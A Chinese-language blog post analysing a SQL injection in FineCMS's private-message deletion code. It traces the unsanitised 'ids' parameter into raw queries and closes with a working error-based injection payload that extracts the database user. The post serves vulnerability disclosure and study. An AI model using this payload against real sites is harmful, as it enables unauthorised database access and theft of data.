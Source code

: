 ```yaml
---
layout: post
title:  "Finecms SQL注入"
date:   2016-11-14 18:04:55
comments: true
categories: php bug
---
```

位置
{% highlight text %}
\member\controllers\Pm.php
{% endhighlight %}

控制器pm的index方法 ，调用了deletes 方法 ，并通过post方式传入参数ids

{% highlight php %}
public function index() {
if (IS_POST) {
if ($this->input->post('action') == 'read') {
$this->pm_model->set_read($this->uid, $this->input->post('ids'));
exit(dr_json(1, lang('000')));
} else {
$this->pm_model->deletes($this->uid, $this->input->post('ids'));
exit(dr_json(1, lang('000')));
}
}

{% endhighlight %}

跟踪deletes
{% highlight text %}
\member\models\Pm_model.php
{% endhighlight %}

此模型类的函数，调用了delete_by_plid
{% highlight php %}
public function deletes($uid, $plids, $isuser = 0) {
if ($plids) {
foreach($plids as $plid) {
$this->delete_by_plid($uid, $plid, $isuser);
}
}
return 1;
}
{% endhighlight %}

继续看delete_by_plid ，最终进行带入SELECT 查询

{% highlight php %}

public function delete_by_plid($uid, $plid, $isuser = 0) {
if (!$uid || !$plid) {
            return NULL;
        }
if ($isuser) {
$relationship = $this->_relationship($uid, $plid);
$sql = "SELECT * FROM ".$this->db->dbprefix('pm_lists')." WHERE min_max='$relationship'";
} else {
$sql = "SELECT * FROM ".$this->db->dbprefix('pm_lists')." WHERE plid='$plid'";
}
$list = $this->db->query($sql)->row_array();
if ($list) {
$user = explode('_', $list['min_max']);
if (!in_array($uid, $user)) {
                return NULL;
            }
} else {
return NULL;
}
$msg_table = $this->db->dbprefix($this->_pm_tablename($list['plid']));
if ($uid == $list['authorid']) {
$this->db->query("DELETE FROM ".$msg_table." WHERE plid='$list[plid]' AND delstatus=2");
$this->db->query("UPDATE ".$msg_table." SET delstatus=1 WHERE plid='$list[plid]' AND delstatus=0");
} else {
$this->db->query("DELETE FROM ".$msg_table." WHERE plid='$list[plid]' AND delstatus=1");
$this->db->query("UPDATE ".$msg_table." SET delstatus=2 WHERE plid='$list[plid]' AND delstatus=0");
}
$count = $this->db->where('plid', $list['plid'])->count_all_results($msg_table);
if(!$count) {
$this->db->query("DELETE FROM ".$this->db->dbprefix('pm_lists')." WHERE plid='$list[plid]'");
$this->db->query("DELETE FROM ".$this->db->dbprefix('pm_members')." WHERE plid='$list[plid]'");
$this->db->query("DELETE FROM ".$this->db->dbprefix('pm_indexes')." WHERE plid='$list[plid]'");
} else {
$this->db->query("DELETE FROM ".$this->db->dbprefix('pm_members')." WHERE plid='$list[plid]' AND uid=$uid");
}
return 1;
}
{% endhighlight %}

##复现漏洞
{% highlight text %}
http:///member/index.php?c=pm&m=index

action=&ids%5B%5D=1' union select 1 from (select count(*),concat(floor(rand(0)*2),(select user() limit 0,1))a from information_schema.tables group by a)b#

{% endhighlight %}
